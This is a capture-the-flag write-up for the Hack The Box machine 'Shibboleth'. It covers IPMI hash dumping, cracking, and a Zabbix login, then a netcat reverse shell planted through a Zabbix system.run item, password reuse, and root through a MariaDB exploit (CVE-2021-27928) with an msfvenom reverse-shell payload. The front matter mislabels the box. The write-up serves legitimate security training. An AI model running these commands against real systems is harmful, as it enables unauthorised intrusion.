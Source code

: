 ```yaml
---
title: Shibboleth 
category: BOX - MEDIUM
type: htb_box
layout: page
img-link: /writeups/htb/boxes/images/shibboleth/1.png
desc: 10.10.10.158 - [MEDIUM] Json by Altelus
tags: Json writeup hackthebox
---
```



# [MEDIUM] Shibboleth <br/>

![Shibboleth icon](images/shibboleth/1.png# icon)

## Enumeration
### NMAP

Starting to port scan using nmap. The following command is used to check the open ports only.
<br />

```bash
nmap -p- --min-rate 10000 10.10.11.124 -vvv 2>&1 | grep "Discovered open" | awk '{ print $4 }' | cut -d "/" -f 1
```
<br />Then the output is them passed to another nmap scan but this time it will do banner grabbing.
<br />

```bash

# Nmap 7.91 scan initiated Tue Mar 15 12:27:25 2022 as: nmap -sV -sC -p 80 -vvv -oA nmap-output-services.tcp 10.10.11.124
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up, received echo-reply ttl 63 (0.35s latency).
Scanned at 2022-03-15 12:27:25 EDT for 15s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: FlexStart Bootstrap Template - Index

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 15 12:27:40 2022 -- 1 IP address (1 host up) scanned in 14.81 seconds

```
<br />Quite unusual for an HTB box but it only has one open port which is port 80. This is the snip of the fron page looks like.<br />
![Shibboleth Front Page](images/shibboleth/2.png)
<br />There is nothing here but a simple static page. Next is to try guessing any virtual hosts. I used ffuf.
<br />
### VHOST Enumeration

```bash
ffuf -u http://shibboleth.htb/ \
    -w <>/Discovery/DNS/subdomains-top1million-110000.txt \
    -H Host: FUZZ.shibboleth.htb -o vhosts -fc 302
```
<br /> ```-fc 302``` is added since without it any subdomain send to the server will redirect to the main site. We have to filter out status codes 302. Once the scan is finished, here is the result from the output file:
<br />
```bash 
cat ffuf/vhost/vhosts | jq | grep shibboleth.htb | grep "host"
```
<br />![Shibboleth vhosts](images/shibboleth/3.png)
<br />As can be seen, 3 subdomains can be seen:
- zabbix.shibboleth.htb
- monitor.shibboleth.htb
- monitoring.shibboleth.htb

<br />This is what they all look like when visited.<br />
![Shibboleth vhosts front page](images/shibboleth/4.png) 

### UDP Scanning
We don't have any credentials to enter in the login page. Simple admin/password and other usual creds and even default zabbix username password (Admin/zabbix) doesn't work. We have to enumerate the box more. UDP enumeration hasn't been done yet.
<br />Using the following command to enumerate UDP:
<br />
```bash
sudo nmap -sU --min-rate 10000 shibboleth.htb -vvv 
```
<br />Port 623 is open.<br />
![Port UDP 623 open](images/shibboleth/5.png# medium)
<br />Next step is to banner grab.
<br />
```bash
sudo nmap -sU -sC --min-rate 10000 -p 623 shibboleth.htb -vvv
```
<br />![623 result](images/shibboleth/6.png# medium)
<br />Looks like nmap doesn't showed much result that is needed. Looking from this [site](https://www.speedguide.net/port.php?port=623), it seems that this is an IPMI service. Also [hacktricks](https://book.hacktricks.xyz/pentesting/623-udp-ipmi) has a great amount of information on how to enumerate and exploit this kind if service.
<br />We can use the metasploit console and IPMI modules 
<br />

### Exploiting IPMI Service
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```
<br />![msfconsole ipmi version](images/shibboleth/7.png)
<br />We want to check if the IPMI service is vulnerable to cipher 0. 
<br />
```bash
msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > run
```
<br />![msfconsole ipmi cipher zero](images/shibboleth/8.png)
<br />As can be seen it is vulnerable. Let's dump the hashes.
<br />
```bash
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```
<br />![msfconsole dump hashes](images/shibboleth/9.png)
<br />We can save the hash part and try cracking it with hashcat
<br />
```bash
hashcat -m 7300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<br />In hashcat the mode for IPMI2 RAKP HMAC-SHA1 is 7300.
<br />![hashcat crack](images/shibboleth/10.png)

### Logging In into Zabbix Dashboard
Creds is ```Administrator:ilovepumkinpie1```. We can test this credentials on the vhosts discovered.
<br />![zabbix login](images/shibboleth/11.png)
<br />As can be seen the creds worked.

### Running Script Items in Zabbix Dashboard

In [Zabbix documentation](https://www.zabbix.com/documentation/5.0/en/manual/config/items/itemtypes/zabbix_agent), you can create an item with a supported key ```system.run``` that executes command on zabbix agent. To do this, from the home dashboard, go to ```Configuration```
<br />![conf](images/shibboleth/12.png# medium-p)
<br />Then, select ```Hosts```
<br />![conf](images/shibboleth/13.png# medium-p)
<br />Then the Hosts page will be loaded. There will be list of hosts and in this case there is only one which is ```shibboleth.htb```. Click the ```items```
<br />![conf](images/shibboleth/14.png# medium)
<br />Then on the upper left, there is an button ```Create Item```. Click it.
<br />![conf](images/shibboleth/15.png# medium)
<br />A form will pop up. The Name field can be of any value. The important here is the key. The following Key value is set: ```system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 9999 >/tmp/f, nowait]```. This is a reverse shell
<br />![conf](images/shibboleth/16.png# medium)
<br />To execute it, Select Test...
<br />![conf](images/shibboleth/17.png# medium)
<br />...then click ```Get value and Test```. It should execute the command. 
<br />![conf](images/shibboleth/18.png# medium)
<br />![conf](images/shibboleth/19.png# medium)

### Whoami and Privesc to ipmi-svc

After turning the shell into an interactive TTY, we can now snoop around. Turns out we are ```zabbix``` as user but the user goal for this is ```ipmi-svc```.
<br />![user zabbix](images/shibboleth/20.png)
<br />We need to privesc to ```ipmi-svc```. Trying the same password from the Zabbix dashboard. ```ipmi-svc:ilovepumkinpie1```
<br />![user ipmi-svc](images/shibboleth/21.png# medium)
<br />It turns out same password was used. We got user.

## Root Privesc 

### Zabbix configuration in /etc/zabbix
Checking the environmental variables of ```ipmi-svc``` there is a zabbix conf in one of them
<br />![user ipmi-svc](images/shibboleth/22.png# medium).
<br />Let's check if there are other configuration files we can look at in ```/etc/zabbix```
<br />![user ipmi-svc](images/shibboleth/23.png# medium)
<br />The last 2 files seems to be interesting and can only be read by ipmi-svc. Turns out this conf has mysql password and username.
<br />![user ipmi-svc](images/shibboleth/24.png# medium)
<br />Let's try this creds on mysql: ```zabbix:bloooarskybluh```
<br />![user ipmi-svc](images/shibboleth/25.png# medium)
<br />Nice! The creds worked. Notice that the copyright is in 2000, 2018. This mariadb may be out of date and possibly vulnerable. 

### Running Processes - Mysql
When running ```ps -aef --forest```, it can be seen that the mysql server is running as root.
<br />![user ipmi-svc](images/shibboleth/26.png)
<br />We also noticed that the mysql may be out of date. Let's check then if there are any existing exploit for mysql MariaDB ```10.3.25 MariaDB ```. Turns out an [exploit procedure exists - CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928) for this version of mysql MariaDB.

### Mysql Exploitation (CVE-2021-27928)
Following the exploitation process. Creating the .so through msfvenom
<br />
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=10000 -f elf-so -o CVE-2021-27928.so
```
<br />![user ipmi-svc](images/shibboleth/27.png)
<br />Now we have to transfer the .so file to the target host. We can serve it through http.server. After getting it we have to login to mysql and set wsrap_provider to the .so file. We should be able to execute commands as root
<br />![user ipmi-svc](images/shibboleth/28.png)
<br />![user ipmi-svc](images/shibboleth/29.png# medium)
<br />The exploit worked! We have pwned the Shibboleth Machine.




<br />
<br />
<br />
<br />
